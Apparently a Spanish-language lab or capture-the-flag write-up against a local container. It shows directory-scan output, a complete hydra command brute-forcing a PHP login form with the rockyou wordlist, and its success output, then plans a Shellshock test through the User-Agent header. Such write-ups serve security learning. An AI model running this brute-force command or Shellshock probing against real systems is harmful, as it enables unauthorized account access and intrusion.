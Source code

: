 ```
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🤯  Header                │ cookie: PHPSESSID=t2d0hebr4qjb42n2fc5daam94d
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, bak, db, py, html, js, jpg, png, log]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 10
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       68l      138w     1839c http://172.17.0.2/index.php
200      GET       68l      138w     1839c http://172.17.0.2/

```

solo consigo un index.php que tras chequear es el mismo panel de login y revisando el codigo fuente no obserno nada que me pueda servir, asi que me tocara ir aplicando fuerza bruta
con hydra y usuarios como root, administrator o admin a ver si logro algo

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form "/index.php:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=t2d0hebr4qjb42n2fc5daam94d:F=Credenciales incorrectas."
```

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-02 14:16:23
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344403 login tries (l:1/p:14344403), ~896526 tries per task
[DATA] attacking http-post-form://172.17.0.2:80/index.php:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=t2d0hebr4qjb42n2fc5daam94d:F=Credenciales incorrectas.
[80][http-post-form] host: 172.17.0.2   login: admin   password: xxxxxxxxxxxx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-02 14:16:25
```
y doy con credenciales validas para el panel de login y tras acceder me consigo con nuevo panel pero esta vez para acceder al servicio de correo de gmail


![Screenshot From 2024-11-02 14-20-20](https://github.com/user-attachments/assets/48e2dbe5-fd61-45b4-88b7-365a1dc21720)

revisando la web no consigo nada de interes sino tan solo observo el mensaje arriba del panel que indica que el user-agent fue almacenado en el log, lo que me da entender que
se esta manejando la variable user-agent de algun modo para llevar un registro de estos en un archivo de log...
Por lo que intentare ver si es posible que el servicio web sea vulnerable a shellshock, que es una vulnerabilidad que sea explota con regualaridad a traves del user-agent o 
algun otro encabezado, asi que capturo una peticion con burpsuite y la envio al repeter para hacer pruebas


![Screenshot From 2024-11-02 14-28-25](https://github.com/user-attachments/assets/07892252-d5f9-488b-ac1f-7093ad5aed1d)

